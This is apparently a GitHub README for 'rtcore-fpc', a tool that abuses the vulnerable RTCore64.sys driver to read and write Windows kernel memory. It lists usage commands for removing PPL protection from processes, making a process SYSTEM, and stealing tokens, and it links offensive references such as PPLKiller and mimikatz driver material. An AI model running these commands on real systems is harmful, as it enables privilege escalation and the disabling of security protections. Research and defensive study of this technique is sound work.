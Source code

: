 # rtcore-fpc
Playing with unsecured driver(s) allowing read/write to kernel memory.</br></br>
For now, playing with EPROCESS :</br>
-removing PPL flag</br>
-stealing system token</br>
</br>

memRW.exe load "%cd%\rtcore64.sys"</br>
memRW.exe list</br>
memRW.exe removeppl PID</br>
memRW.exe makesystem PID</br>
memRW.exe stealtoken from_pid to_pid</br>
memRW.exe unload "%cd%\rtcore64.sys"</br>
</br>

Greatly inspired by https://github.com/RedCursorSecurityConsulting/PPLKiller </br>

Tools to check EPROCESS struct : https://ntdiff.github.io/ </br>

Detailed EPROCESS struc : https://www.geoffchappell.com/studies/windows/km/ntoskrnl/structs/eprocess/index.htm </br>

Bunch of other drivers to look at : https://guidedhacking.com/threads/how-to-bypass-kernel-anticheat-develop-drivers.11325/ </br>

Must read (mimikatz 4 ever...) : https://posts.specterops.io/mimidrv-in-depth-4d273d19e148 </br>
